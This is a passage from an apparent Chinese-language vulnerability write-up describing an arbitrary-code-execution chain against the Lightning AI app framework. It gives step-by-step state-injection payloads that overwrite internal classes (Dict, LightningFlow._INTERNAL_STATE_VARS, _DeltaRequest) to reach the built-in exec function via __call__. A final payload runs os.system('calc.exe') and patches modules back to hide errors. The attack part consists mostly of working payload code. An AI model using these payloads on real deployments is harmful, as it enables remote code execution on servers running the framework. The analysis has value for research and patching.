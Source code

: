 由于我们构造的路径中实际上是通过self.root.__init__.__builtins__['exec']去最终获取exec对象的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdlCRrOeENdSmdjcVRSCV1mhjuJNGFxJDT3iciapWIjxOia5HHibU2spIvww/640?wx_fmt=png&from=appmsg "")  
  
没有列表类型，所以我们只需要覆盖LightningDict类也就是lightning.app.structures.Dict为普通dict即可（LightningDict是lightning.app.structures.Dict的别名）  
  
payload:  
```
# 绕过get_component_by_name中的isinstance(current, LightningDict)，使其能够遍历普通字典
"root['function'].'__globals__'['_sys'].modules['lightning.app'].structures.Dict": dict,

```  
  
但是这里将lightning.app.structures.Dict类覆盖为普通dict后继续调试发现会导致之前的程序报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRd2cf3zibVagq7iczfL80ebPfPB4f3yzYTonGdEE5azn33D6IP3RufNZZw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdKVFunPKRX17ozNElZnjqD1PEJE9LyRrCgNGK3NhJxyBKDcacbvPpHg/640?wx_fmt=png&from=appmsg "")  
  
在前面的程序中进行setattr的时候调用了__satattr__魔术方法，这里同样从lightning.app.structures导入Dict，由于前面我们将其覆盖成了正常的dict，所以在调用下面的_set_child_name(self, value, name)方法时会报错。  
  
所以这里有两个方案，一个是将provided_state["vars"]覆盖为空，就不会经过for循环，  
  
payload:  
```
"root['vars']": {},

```  
  
另一个是查看self._is_state_attribute(name)方法使其返回false，我们查看这个方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdBjY7OiaNZ9468QcCV0hEtAzhj4vdkmibicqcSbCvYsUbOqhtTLxG9VBlw/640?wx_fmt=png&from=appmsg "")  
  
这个方法对传入的name判断是否在LightningFlow._INTERNAL_STATE_VARS  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdD2xjzVMZq3kKj6YuLjEDeMRJl3hdgbiaFBILx3y8udYBMk2XPyCjSRw/640?wx_fmt=png&from=appmsg "")  
  
所以也可以将_INTERNAL_STATE_VARS覆盖为空也可以  
```
# or 将`_INTERNAL_STATE_VARS`覆盖为空，也不会进入报错对应的if条件语句里。
"root['function'].'__globals__'['_sys'].modules['lightning.app'].core.flow.LightningFlow._INTERNAL_STATE_VARS": (),

```  
## 5、函数调用  
  
经过以上操作对属性修改，我们将root.__init__.__builtins__.exec赋值给_DeltaRequest的name属性，在get_component_by_name中对路径解析并获得exec对象  
  
，想要让类的实例像函数一样被调用，实际上是通过__call__方法实现的，所以通过getattr(flow, request.method_name)获取他的__call__方法，然后在下面的method(*request.args, **request.kwargs)进行调用，最终实现任意函数执行  
  
payload：  
```
injected_code = f"__import__('os').system('calc.exe')" + '''import lightning, sysfrom lightning.app.api.request_types import _DeltaRequest, _APIRequestlightning.app.core.app._DeltaRequest = _DeltaRequestfrom lightning.app.structures.dict import Dictlightning.app.structures.Dict = Dictfrom lightning.app.core.flow import LightningFlowlightning.app.core.LightningFlow = LightningFlowLightningFlow._INTERNAL_STATE_VARS = {"_paths", "_layout"}lightning.app.utilities.commands.base._APIRequest = _APIRequestdel sys.modules['lightning.app.utilities.types']'''

"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.name": "root.__init__.__builtins__.exec",
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.method_name": "__call__",
```